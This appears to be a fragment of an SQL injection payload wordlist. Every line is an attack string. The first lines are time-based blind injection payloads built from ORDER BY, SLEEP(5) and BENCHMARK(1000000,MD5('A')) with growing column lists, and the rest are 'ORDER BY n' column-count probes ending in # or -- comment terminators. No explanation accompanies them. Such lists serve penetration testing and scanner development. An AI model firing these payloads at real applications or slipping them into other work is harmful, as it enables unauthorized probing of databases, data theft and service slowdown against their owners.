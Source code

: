 ```
ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26
ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26#
ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26-- 
ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27
ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27#
ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27-- 
ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28
ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28#
ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28-- 
ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29
ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29#
ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29-- 
ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30
ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30#
ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30-- 
ORDER BY 2 
ORDER BY 2# 
ORDER BY 2-- 
ORDER BY 20 
ORDER BY 20# 
ORDER BY 20-- 
ORDER BY 21 
ORDER BY 21# 
ORDER BY 21-- 
ORDER BY 22 
ORDER BY 22# 
ORDER BY 22-- 
ORDER BY 23 
ORDER BY 23# 
ORDER BY 23-- 
ORDER BY 24 
ORDER BY 24# 
ORDER BY 24-- 
ORDER BY 25 
ORDER BY 25# 
ORDER BY 25-- 
ORDER BY 26 
ORDER BY 26# 
ORDER BY 26-- 
ORDER BY 27 
ORDER BY 27# 
ORDER BY 27-- 
ORDER BY 28 
ORDER BY 28# 
ORDER BY 28-- 
ORDER BY 29 
ORDER BY 29# 
ORDER BY 29-- 
```